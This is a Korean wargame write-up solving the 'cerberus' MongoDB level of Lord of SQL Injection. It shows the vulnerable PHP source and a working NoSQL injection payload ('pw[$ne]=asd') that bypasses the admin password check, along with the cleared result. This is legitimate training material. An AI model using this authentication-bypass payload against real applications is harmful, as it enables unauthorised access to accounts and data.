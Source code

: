 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - cerberus 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


드디어 `MSSQL`이 끝나고 이번엔 `MongoDB`로 넘어왔다.  

문제 이름은 `cerberus`이다.  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------
query : {"id":null,"pw":null}
---------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = mongodb_connect();
  $query = array(
    "id" => $_GET['id'],
    "pw" => $_GET['pw']
  );
  echo "<hr>query : <strong>".json_encode($query)."</strong><hr><br>";
  $result = mongodb_fetch_array($db->prob_cerberus->find($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";
  if($result['id'] === "admin") solve("cerberus");
  highlight_file(__FILE__);
?>
```

코드는 간단하다.  

`id`가 `admin`인 행을 추출하면 된다.  

그래서 인터넷에 `mongodb sql injection`이라고 검색을 해 보았더니 자료가 엄청 많이 나왔다.  

`MongoDB`는 `NoSQL`이라고 한단다.  

> NoSQL  
>> Not Only SQL로 불리기도 하며, SQL만을 사용하지 않은 DBMS  
>> 비관계형 데이터베이스  
>> 즉, 데이터의 관계를 정의하지 않고 사용하는 DB  

아래 블로그에서 NoSQL과 일반 SQL DB 사이의 차이점을 쉽게 설명 해 주었다.  

[NOSQL Injection from MongoDB](https://tribal1012.tistory.com/138)

위의 블로그를 읽은 후, 문제의 소스코드를 보면 문제에서는 `find($query)`를 이용하여 `select * from prob_cerberus where id=$_GET['id'] and pw=$_GET['pw']` 형태의 쿼리를 실행했다는 것을 알 수 있었다.  

그런데 이 때, Array 형태로 구성되어 있는 `$query` 안에 또 다시 관계를 나타내는 Array를 삽입 해 의도하지 않은 결과를 가져올 수 있다고 한다.  

가장 자주 쓰이는 것이 `$ne`인 것 같은데, 이는 `!=`과 동일한 기능을 하는 문자이다.  

따라서 해당 쿼리에서 `pw=$_GET['pw']` 부분을 `pw!=$_GET['pw']`로 만들어 `id`는 `admin`이지만, `pw`의 값이 내가 입력한 값이 아닌 데이터를 불러오도록 조작할 수 있다.  

위의 블로그에서는 테스트 환경에서 소스코드를 짜서 구성했는데, 나는 그냥 배열 형태로 아래와 같이 넣어주었다.  

```
?id=admin&pw[$ne]=asd
```

그럼 완성되는 `$query`의 내용은 아래와 같을 것이다.  

```
{"id" : "admin", "pw" : {"$ne":"asd"}}
```

즉, `SQL`의 `where 절`과 같이 바꾸어 보면 다음과 같다.  

```
where id = "admin" and pw != "asd"
```

따라서 아래와 같이 문제를 풀 수 있게 된다.  

```php
----------------------------------------------------------
query : {"id":"admin","pw":{"$ne":"asd"}}
----------------------------------------------------------

Hello admin
CERBERUS Clear!

<?php
  include "./config.php";
  login_chk();
  $db = mongodb_connect();
  $query = array(
    "id" => $_GET['id'],
    "pw" => $_GET['pw']
  );
  echo "<hr>query : <strong>".json_encode($query)."</strong><hr><br>";
  $result = mongodb_fetch_array($db->prob_cerberus->find($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";
  if($result['id'] === "admin") solve("cerberus");
  highlight_file(__FILE__);
?>
```

`CERBERUS Clear`